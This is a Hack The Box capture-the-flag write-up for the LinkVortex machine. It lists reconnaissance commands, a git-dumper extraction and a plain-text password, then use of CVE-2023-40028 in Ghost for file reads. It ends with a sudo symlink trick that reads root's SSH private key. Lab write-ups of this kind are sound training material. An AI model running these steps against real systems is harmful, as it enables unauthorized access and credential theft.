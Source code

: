 ```yaml
---
date: 2025-03-02
categories: [Linux, Easy]
---
```


![LinkVortexBusqueda](https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [0xyassine](https://app.hackthebox.com/users/143843)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---










- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.47 -oG scan
	nmap -p22,80 -sCV -Pn 10.10.11.47 -oN ports
	```

	![image](https://github.com/user-attachments/assets/6b9a5ab6-bc5a-4ac4-ab30-136388ba3e47)

- I go to the site and see that a de-tialized version of Ghost is running. I find that it has a vulnerability, [CVE-2023-40028](https://github.com/TryGhost/Ghost/security/advisories/GHSA-9c9v-w225-v5rg). I need to find a valid credential to be able to abuse this vulnerability.
	
	![image](https://github.com/user-attachments/assets/ca1b0990-862f-4762-8508-55ff86aaa5c3)

- I do a search for subdomains and I find one.

	```python
	wfuzz -c -t 100  --hh=230 -w  /usr/share/amass/wordlists/subdomains-top1mil-110000.txt -H "Host: FUZZ.linkvortex.htb" http://linkvortex.htb
	```

	![image](https://github.com/user-attachments/assets/c20f6bcb-f380-4028-9676-de65dc0a490d)

  ![image](https://github.com/user-attachments/assets/ace1c268-9d0b-4fd7-821d-7721886df1fd)

- When listing the found subdomain I find a git repository. I download it with [git-dumper](https://github.com/arthaud/git-dumper)

	```python
	git-dumper "http://dev.linkvortex.htb/.git"  /home/rufo/linkVortex/content/example 
	```

- I search in the repository files and find some passwords. I try with the passwords I found and the vulnerability I found before and I manage to find some valid credentials.
	
	```python
	./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
	```

- I modify the script to point to the endpoint and I manage to read internal files of the machine. LFI

	![image](https://github.com/user-attachments/assets/3a94aebf-ce76-4653-b658-7f5317d1379d)

	![image](https://github.com/user-attachments/assets/5079c283-ce1c-4373-b80e-618790f7f33e)

- I list the repository files and manage to find some credentials in the production environment configuration file

	![image](https://github.com/user-attachments/assets/96b51d9a-cfa4-46b3-9a62-2b46cb9948a2)

- Thanks to these credentials I am able to log in via ssh and read the first flag

  	![image](https://github.com/user-attachments/assets/d966b202-6bdf-4257-a4b8-f0b5f007d612)

- Listing the system files, I see that I can execute as root the file clean_symlink.sh and passing any file as argument.
- I create a couple of symbolic links to be able to read the file with the ssh key of the root user.

	![image](https://github.com/user-attachments/assets/60f2cdd4-b05b-4c56-871f-883bbc70ca4e)

	```python
	ln -s /root/.ssh/id_rsa link1.txt
	ln -s /tmp/a/link1.txt duo.png
	sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/a/duo.png
	```

	![image](https://github.com/user-attachments/assets/809e4ed4-9443-4c30-8784-2589ab5f2fd3)

- With this key I connect via ssh as root and manage to read the second flag

	![image](https://github.com/user-attachments/assets/546c5283-90cc-461d-94fb-8248f0630f3b)
